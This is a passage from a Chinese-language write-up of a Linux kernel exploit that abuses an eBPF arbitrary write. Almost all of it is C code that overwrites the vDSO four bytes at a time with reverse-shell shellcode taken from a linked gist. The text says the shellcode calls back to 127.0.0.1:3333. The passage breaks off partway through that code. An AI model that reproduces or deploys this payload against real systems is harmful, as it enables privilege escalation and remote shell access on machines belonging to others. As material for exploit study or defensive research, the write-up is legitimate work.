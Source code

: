 其中shellcode从这里提供
https://gist.github.com/itsZN/1ab36391d1849f15b785

该shell代码向地址127.0.0.1:3333进行反弹shell.

将该汇编代码转换为shellcode,通过任意地址的4个字节的修改,添加到我们的程序中,如下

```
exp_buf[0] = 0x31485390-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*0);//0xffffffff822c0730
exp_buf[0] = 0x0f66b0c0-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*1);
exp_buf[0] = 0xdb314805-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*2);
exp_buf[0] = 0x75c33948-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*3);
exp_buf[0] = 0xc031480f-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*4);
exp_buf[0] = 0x050f39b0-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*5);
exp_buf[0] = 0x48db3148-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*6);
exp_buf[0] = 0x0974d839-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*7);
exp_buf[0] = 0xc031485b-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*8);
exp_buf[0] = 0x050f60b0-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*9);
exp_buf[0] = 0xd23148c3-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*10);
exp_buf[0] = 0x6a5e016a-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*11);
exp_buf[0] = 0x296a5f02-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*12);
exp_buf[0] = 0x48050f58-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*13);
exp_buf[0] = 0xb9485097-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*14);
exp_buf[0] = 0xfaf2fffd-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*15);
exp_buf[0] = 0xfeffff80-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*16);
exp_buf[0] = 0x51d1f748-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*17);
exp_buf[0] = 0x6ae68948-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*18);
exp_buf[0] = 0x2a6a5a10-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*19);
exp_buf[0] = 0x48050f58-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*20);
exp_buf[0] = 0x3948db31-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*21);
exp_buf[0] = 0x480774d8-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*22);
exp_buf[0] = 0xe7b0c031-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*23);
exp_buf[0] = 0x6a90050f-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*24);
exp_buf[0] = 0x216a5e03-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*25);
exp_buf[0] = 0xceff4858-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*26);
exp_buf[0] = 0xf675050f-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*27);
exp_buf[0] = 0x50c03148-1;
```